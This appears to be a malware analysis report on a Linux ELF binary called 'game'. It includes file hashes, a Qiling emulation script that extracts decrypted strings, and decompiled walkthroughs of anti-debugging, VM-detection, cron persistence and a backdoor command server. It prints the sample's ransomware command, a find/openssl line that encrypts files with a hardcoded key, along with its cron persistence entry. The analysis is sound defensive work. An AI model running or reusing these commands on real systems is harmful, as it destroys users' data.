## Executive Summary
### User Perspective
- 
### Organization Perspective
- 

- ## Background
- **Date** - 01/05/2025
- **File Name** 
	- game
- **File Location** - [original](/binaries/game)
## Static Analysis
- This was done on the file found in [original](/binaries/game)
- **File Hash** by VirusTotal
	- **MD5** - 4ff726ba36974d7dcbd542a7d4b87b03 
	- **SHA-1** - 3bc4b2d4e970288bbbf53e5a05b34073690a93c9
	- **SHA-256** - 4a97b28660a14536a5ce34abc131e4498acadc72dfe5d1c34acbc12a7176e3be 
	- **Vhash** -  ab372f4b201de7a5d77065654cbc4d54 
	- **SSDEEP** - 3072:msDMcxV4mvS7Fb7BrJtRymA8ZXkZxYlYojwLGH2GLewY4uOSHRm93UpyM:/D9tyhkZxRojqa2DBFw
	- **TLSH** - T19B34A437359381B8D4C97FF8758F92A6CD51BCF04D1A6A5AB34FCA1C9A00D803B6E691
- **File Size** - 235.4 KiB (241,048 bytes)
- **File Type** - ELF - Executable and Linkable Format
	- Extended type by https://polyswarm.network - ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c91f5a732fcc0cc91ca733e89282bb9a98e0b48e, for GNU/Linux 3.2.0, not stripped
- **Packer/Compiler Info** - GCC(3.x)
- **File Properties:**
	- **Description** (file) - ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped
	- **Description** (exiftool)
		- **File Type**: ELF shared library
		- **File Type Extension**: so
		- **MIME Architecture**: application/octet-stream
		- **CPU Architecture**: 2025:01:31 16:51:38
		- **CPU Byte Order**: Little endian
		- **Object File Type**: Shared object file
		- **CPU Type**: AMD x86-64
	- **File Header Characteristics** (imHex)-7F 45 4C 46 (ELF) 
	- **Language** (DetectItEasy) - C
	- **Library** - GLIBC(2.34) DYN AMD64-64
- **External Dependencies**: 
	- [Webview](https://github.com/webview/webview)
	- It is possible to obtain more dependencies with the command ```ldd game ```
	- **Sections** : To verify some sections use the command ```strings game | grep -E "^\."```
	- 
- **Entropy** by DetectItEasy
	- 
## Behavioral Analysis
### Setup
- In order to perform the dynamic analysis in a safe environment we created a QEMU virtual machine with Kali Linux.
- Besides this we used some tools that will be useful for the analysis namely:
	- **Binary Ninja** – A reverse engineering platform with an intuitive interface and scripting capabilities.
	- **Ghidra** – A free and open-source software reverse engineering (SRE) suite developed by the NSA.
    - **Qiling** – A dynamic binary emulation framework that supports multi-architecture analysis and automation.
    - **Detect It Easy (DIE)** – A tool for identifying file types, packers, and compilers used in executables.
    - **JEB Decompiler** – A commercial reverse engineering platform particularly strong in analyzing Android apps and obfuscated code.
### Binary Emulation
To extract decrypted strings during runtime, we used **Qiling**, a dynamic emulation framework, to emulate and hook specific memory locations of the binary. 
The script shown bellow performs the following actions:
- **Address Translation Functions (`ADDR_GH`, `ADDR_BN`)**: These convert addresses from Ghidra and Binary Ninja to the base memory address used by Qiling (for correct address mapping during emulation).
- **Decrypt Hook Functions**: Each function (e.g., `detect_debugger_decrypt_hook`, `ramsomware_decrypt_hook`, etc.) reads the decrypted string from the memory pointed to by `RAX`, prints it, and manually sets the instruction pointer (`RIP`) to jump to the next relevant decryption call. This allows controlled execution through only the desired code paths.
- **Sandbox Function**: This initializes the Qiling environment with the target binary and a simulated root filesystem (`rootfs`). It:
	- Registers all the hook functions at the relevant addresses (based on reverse engineering insights).
	- Starts the emulation at a specific address where the decryption sequence begins.
- **Execution Control (`ql.run`)**:  Begins execution at the first decryption-related address and proceeds step-by-step through the chained decryption calls by modifying `RIP`.
This script enabled us to **extract runtime-decrypted strings** without needing to run the actual binary natively, helping avoid anti-debugging or VM detection routines. By using **Qiling’s memory access and control features**, we simulated the binary's behavior and intercepted key operations for analysis.
```Python
from qiling import *
from qiling.const import QL_INTERCEPT

# the  qiling base addr is 0x555555559900
# from ghidra addr to qiling addr
def ADDR_GH(addr: int):
    return 0x555555454000 + addr

# from binary ninja addr to qiling addr
def ADDR_BN(addr: int):
    return 0x555555554000 + addr

def my_pow(ql: Qiling):
    params = ql.os.resolve_fcall_params({'x': float, 'y': float})
    ql.arch.regs.xmm0 = pow(params['x'], params['y'])

def detect_debugger_decrypt_hook(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in detect_debugger(): {result}")

    # go to the detect_qiling() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x00005f62)

def detect_qiling_decrypt_hook1(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in detect_qiling(): {result}")

    # go to the second detect_qiling() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x00005fb9)
 
def detect_qiling_decrypt_hook2(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in detect_qiling(): {result}")

    # go to the detect_vm() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x00005d30)

def detect_vm_decrypt_hook1(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in detect_vm(): {result}")

    # go to the second detect_vm() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x00005d87)

def detect_vm_decrypt_hook2(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in detect_vm(): {result}")

    # go to the ramsomware() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x0000614d)

def ramsomware_decrypt_hook(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in ramsomware(): {result}")

    # go to the install_program_to_crontab() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x000064c7)

def install_program_to_crontab_decrypt_hook1(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in install_program_to_crontab(): {result}")

    # go to the second install_program_to_crontab() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x000065ae)

def install_program_to_crontab_decrypt_hook2(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in install_program_to_crontab(): {result}")

    # go to the third install_program_to_crontab() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x00006659)

def install_program_to_crontab_decrypt_hook3(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in install_program_to_crontab(): {result}")

    # go to the fourth install_program_to_crontab() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x000066a6)

def install_program_to_crontab_decrypt_hook4(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in install_program_to_crontab(): {result}")

    # go to the main() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x000067e8)

def main_hook1(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in main(): {result}")

    # go to the second main() decrypt() call
    ql.arch.regs.rip = ADDR_BN(0x00006836)

def main_hook2(ql: Qiling):
    result = ql.mem.read(ql.arch.regs.rax, 1024).split(b'\x00')[0].decode()
    print(f"Decrypted string in main(): {result}")
    ql.stop()

def sandbox(path: list[str], rootfs: str):
    ql = Qiling(path, rootfs)

    # intercept calls to pow()
    ql.os.set_api('pow', my_pow, QL_INTERCEPT.CALL)

    ql.hook_address(detect_debugger_decrypt_hook, ADDR_BN(0x00005eb6))             # detect_debugger()
    ql.hook_address(detect_qiling_decrypt_hook1, ADDR_BN(0x00005f76))              # detect_qiling()
    ql.hook_address(detect_qiling_decrypt_hook2, ADDR_BN(0x00005fcd))              # detect_qiling()
    ql.hook_address(detect_vm_decrypt_hook1, ADDR_BN(0x00005d44))                  # detect_vm()
    ql.hook_address(detect_vm_decrypt_hook2, ADDR_BN(0x00005d9b))                  # detect_vm()
    ql.hook_address(ramsomware_decrypt_hook, ADDR_BN(0x00006161))                  # ramsomware()
    ql.hook_address(install_program_to_crontab_decrypt_hook1, ADDR_BN(0x000064db)) # install_program_to_crontab()
    ql.hook_address(install_program_to_crontab_decrypt_hook2, ADDR_BN(0x000065c2)) # install_program_to_crontab()
    ql.hook_address(install_program_to_crontab_decrypt_hook3, ADDR_BN(0x0000666d)) # install_program_to_crontab()
    ql.hook_address(install_program_to_crontab_decrypt_hook4, ADDR_BN(0x000066ba)) # install_program_to_crontab()
    ql.hook_address(main_hook1, ADDR_BN(0x000067f0))                               # main()
    ql.hook_address(main_hook2, ADDR_BN(0x0000684a))                               # main()

    # start the chain of decrypt calls
    ql.run(begin=ADDR_BN(0x00005ea2))

if __name__ == '__main__':
    sandbox(['./game'], 'rootfs')
```
- The result of the following script is:
 ```
Decrypted string in detect_debugger(): /proc/self/status
Decrypted string in detect_qiling(): /proc/self/maps
Decrypted string in detect_qiling(): 1),).'
Decrypted string in detect_vm(): /proc/cpuinfo
Decrypted string in detect_vm(): hypervisor
Decrypted string in ramsomware(): find %s -type f -exec sh -c 'openssl enc -aes-256-cbc -salt -in {} -out {}.enc -k KdsDXMIAYpQvFbm' \;
Decrypted string in install_program_to_crontab(): %s/.note
Decrypted string in install_program_to_crontab(): crontab -l
Decrypted string in install_program_to_crontab(): crontab -e
Decrypted string in install_program_to_crontab(): */5 * * * * chmod ug+x %s && %s\n
Decrypted string in main(): *.7#.%,'") +oec`t1gt?m62k9<=<8mCN
Decrypted string in main(): https://play.js13kgames.com/ninja-vs-evilcorp/
 ```
 - By analyzing the result of the script execution we gathered the following information:
	- **Anti-Debugging and Anti-Emulation Techniques** 
		- The first several decrypted strings provide clear evidence of environment-aware behavior, like strings such as `/proc/self/status`, `/proc/self/maps`, and `/proc/cpuinfo` indicate that the binary inspects its execution environment using Linux’s virtual file system. These paths are typically parsed by malware to detect whether it is being debugged or executed in a sandbox or virtual machine. 
		- The presence of the string `hypervisor`, in particular, is a known tactic for detecting virtualization platforms like VirtualBox or VMware, which would suggest execution in a controlled analysis environment. 
		- Anomalous outputs like `1),).'` may represent obfuscated checks or malformed decoding results, although we are not sure of its exact meaning.
	- **Ransomware Functionality**
		- A key decrypted string confirms that the malware behaves as ransomware ``find %s -type f -exec sh -c 'openssl enc -aes-256-cbc -salt -in {} -out {}.enc -k KdsDXMIAYpQvFbm' \;``
			- This command recursively searches the file system and encrypts each file using OpenSSL's AES-256-CBC encryption mode with the use hardcoded key `KdsDXMIAYpQvFbm`.
			- The encrypted files are renamed with a `.enc` suffix, consistent with typical ransomware behavior.
	- **Persistence Mechanism via Cron**
		- Following the encryption step, the malware attempts to establish persistence. 
		- The decrypted strings related to the `install_program_to_crontab()` function indicate that the binary manipulates the user's crontab:
			- It first retrieves and edits the crontab entries (`crontab -l`, `crontab -e`).
			- Then it adds a scheduled job with the command `*/5 * * * * chmod ug+x %s && %s\n`, this cron job ensures that the malware script remains executable and continues to run every 5 minutes, reinforcing its foothold on the system.
		- The reference to a `.note` file path (`%s/.note`) may indicate that the malware leaves behind a marker or ransom note.
	- **Embedded URL**
		- Finally we are left with one URL `https://play.js13kgames.com/ninja-vs-evilcorp/`, this domains points to what appears to be browser-based game hosted as part of the JS13kGames competition.
### Decompiled Code Analysis
- The decompiled code analysis was mostly done with Binary Ninja, although when in doubt about the decompilation Ghidra was also used as a double check.
- The presentation of the decompiled code will be constituted by two prints, the left one is the original one and the right one is the one where some symbols names were changed as well as types and definitions. Any modifications of the original code will be explained.
- Initially we looked for the symbol `main()` since this is the function where everything starts.
-  
- The first function that was analysed, as mentioned previously was the `main()`.
	- This function starts of by verifying the amount of arguments passed to itself(given by `argc`), this is a interesting case since the else condition will never happen since it is not possible to pass -1 arguments. In the if condition we find 2 functions that will be analysed later:
		- `detect_debugger()`
		- `detect_qiling()`
		- A worthy mention is that in the line `tamper=tamper` is a decompilation error, this is verifiable when analyzing the Assembly code. The correct version would be `tamper |= detect_qiling()`. 
	- After this, the quantity of arguments is verified once more, but this time the condition changes from a **equal or bigger than** zero to a **bigger than** zero, if this condition is met then the function `start_backdoor_server()` is called.
	- Posterior to the verification of the quantity of arguments, another verification of the execution environment is done with the function `detect_vm_with_msr()`.
	- Then we have the declaration of some variables:
		- Initially `rax_11` that after analyzing the code becomes clear it represents the result of the function `detecte_vm`, so the name was updated to `running_in_a_vm`.
		- Besides `rax_11` the same logic was applied to `tamper_1` and to `tamper` who were renamed to `being_debugged` and `debugged_or_vm`, respectively, due to the value of the first one being `OR` of the function `debugged_vm_with_msr` and the value of the variable `debugged_or_vm`, the second one is the `OR` between the value of `running_in_a_vm` and `being_debugged`.
	- After this a library for webview was used, and in order to facilitate the comprehension we consulted the source code in the repository of the library (present in the references) and corrected the types, functions and arguments passed.
- 
-  After the `main()` function we will analyze the functions as they appear, so the next one is `detect_debugger()`
	- This functions starts of by calling the function `decrypt()` to decrypt the string, that will result in the value obtained with Qiling `/proc/self/status`, this is a file in the proc filesystem on Linux systems that provides detailed information about the current process, this allows to retrieve runtime characteristics about itself, which will be useful later on.
	- After this, the file is read with the function `fopen()`, after this using `memset()` the buffer is overwritten with zeros, this is used to minimize the time which the string is decrypted.
	- The program enters a loop until it finds the string "TracerPid:\t0" in `/proc/self/status`, which indicates that no debugger is attached to the process. 
		- The TracerPid field is set to the PID of a tracing (debugging) process if one is present a value of `0` means the process is not being traced. 
- 
- After verifying if it is running in a debugger is verifies if it is being emulated by Qiling with the function `detect_qiling()`.
	- The functions operates off exactly like the previous one, decrypting a value that will result in `/proc/self/maps` and then opening the file, and searching for the value "1),).'" in the file.
		- Although this functions always returns zero, which may indicate incorrect decompilation.
- 
- The following function is `start_backdoor_server()`.
	- The first alteration done on the function is in the arguments, the last two arguments were never used, so they were removed from the declaration.
	- The name of the first argument is updated to `argc` and the type and name of the second argument was also updated to type `char **` and renamed to `argv` due to the arguments that are passed to this function when it is called in `main()`.
	- The first variable that is altered is `rax_4`, this is renamed to `curr_time` due to the fact that the function `time(nullptr)`retrieves the current time when the argument is the null pointer.
	- The second variable that is altered is `rdi_2`, on this case it was the type that was updated to `uint64_t*` and renamed to `phys_addr`.
	- The else case is just code without any sense.
	- After the conditions, the programs sleeps for the physical address value in seconds, using the function `sleep()`.
	- The variable `var_18` mas retyped to the type `pthread_t` since it is the first argument of the function `pthread_create` and rename to `thread`.
- 
- The following function is `detect_vm_with_msr()`
	- The functions starts of by reading the content of the file `/dev/cpu/0/msr`.
	- Then using the function `pread()`it reads from the previous file 8 bytes from the offset 26. If the value the function `preads`returns is different from 8 then the function ends.
		- Otherwise if the value read is smaller than 0x8000000 it returns 0 otherwise it returns 1.
- 
- The next function is `detect_vm()`.
	- Just like the functions `detect_debugger()` and `detect_qiling()` this function decrypts a string and then accesses the file the string contains, in this case is `/proc/cpuinfo` and then it searches for `hypervisor` if it finds it, then it returns the value 1, which means a virtual machine was detected otherwise it returns 0 that means no virtual machine was detected.
- 
- The following function is `decrypt()` will have two prints, the first one extracted from Ghidra and the second one from Binary Ninja, this is done since the output of both is different, and in this case the Ghidra is much simpler.
	- The first alteration was done to the function arguments, `arg1` was retyped to `char*` and renamed to `str` since the function receives a string and then the length which lead to the renaming of the variable `arg2`to `len`.
	- The variable `rax_4` is then renamed to `pow_res`, since this is the result of the function `pow()`.
	- Then a decryption cycle is done, where the value of the XOR operation between the character in the position `i` of the string `str` and the value of the sum of `pow_res` and `i`.
	- After the cycle, it adds the null terminator to the string.
- 
- 
- The following function is `backdoor_server()`, that is initiated in the previously explained function `start_backdoor_server()` in a new thread.
	- On the function `socket()` we checked the documentation in order to understand what were the arguments being passed, which ended up being AF_INET, SOCK_STREAM and 0, which means it opens a TCP IPv4 socket.
	- It then verifies if the file descriptor is bigger than 0 and if the overall application isn't being debugged or inside a virtual machine.
	- The following lines in comparison shows a lot of changes, this happened by verifying the function `bind` and its documentation by analyzing this we were able to understand that the first argument is the socket, followed by its address and than the address length. 
		- So the first step was to correct the signature of the `bind` function and then renaming and retyping the following variables:
			- `var_38` to `address`and to the type `struct sockaddr`, this alteration then adjusted the lines below until the variable `var_36`.
			- `var_36`to `port`, this was possible due to the usage of the function `htons`, which changes the endianness of the value of the host and network byte order, the type was also updated to `char`even though the return type of the function `htons` is `uint16_t` in order to correct the decompilation process since the value of `port` is divided into two values of 1 byte each, this is equivalent to an array of two `chars`. **This is a really important function since it allowed us to discover the port in which the backdoor was going to communicate through and it doesn't connect itself to a server but rather waits to be contacted from an outside server .**
	- Then it starts a outer loop where it accepts any connections to the open socket.
	- In a inner loop it then processes the data received from the function `recv()`, this allowed us to rename the variable `rax_9`to `size_data_recvd.
	- Then using a series of verifications of the content received in the socket it implements a command system where:
		- If the content starts with a "e " it goes to the `ransomware()`function.
		- If the content starts with a "d " it goes to the `download_http_url_with_curl()`
		- If the content starts with a "c " it goes to the it executes the content received using the function `system()` directly in the host.
